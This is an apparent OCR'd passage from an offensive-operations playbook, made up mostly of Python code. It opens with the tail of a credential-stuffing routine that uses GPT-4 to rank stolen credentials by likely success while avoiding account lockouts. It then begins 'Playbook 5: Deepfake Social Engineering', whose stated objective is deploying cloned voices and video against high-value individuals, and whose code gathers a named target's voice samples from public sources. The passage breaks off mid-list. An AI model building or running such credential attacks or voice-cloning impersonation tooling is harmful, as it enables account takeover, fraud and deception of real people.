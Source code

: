 ```python
                if self.detect_account_lockout(results):
                    break  # Move to next target

        return successful_logins

    def optimize_credential_selection(self, credentials: List[Dict], target_analysis: Dict, history: List[Dict]) -> List[Dict]:
        """Use AI to select most promising credentials for target"""

        optimization_prompt = f"""
        Select and rank the most promising credentials for this target:

        Target Analysis:
        {json.dumps(target_analysis, indent=2)}

        Available Credentials:
        {json.dumps(credentials[:50], indent=2)}  # Sample

        Previous Attempts History:
        {json.dumps(history[-20:], indent=2)}  # Recent attempts

        Consider:
        1. Target organization patterns
        2. Previous success/failure patterns
        3. Credential quality indicators
        4. Time-based factors
        5. Account lockout risk

        Return top 100 credentials ranked by success probability.
        """

        response = self.llm.chat.completions.create(
            model="gpt-4",
            messages=[{"role": "user", "content": optimization_prompt}]
        )

        return json.loads(response.choices[0].message.content)
```

## Playbook 5: Deepfake Social Engineering

### Objective
Create and deploy deepfake audio/video content for advanced social engineering attacks targeting high-value individuals.

### Phase 1: Deepfake Content Creation

#### 1.1 Voice Cloning for Social Engineering

```python
class AIVoiceCloning:
    def __init__(self, voice_cloning_api):
        self.voice_api = voice_cloning_api
        self.target_voices = {}

    def collect_voice_samples(self, target_name: str) -> List[str]:
        """Collect voice samples from public sources"""

        sources = [
            f"youtube.com search for {target_name} interviews",
            f"podcast appearances by {target_name}",
            f"company earnings calls with {target_name}",
```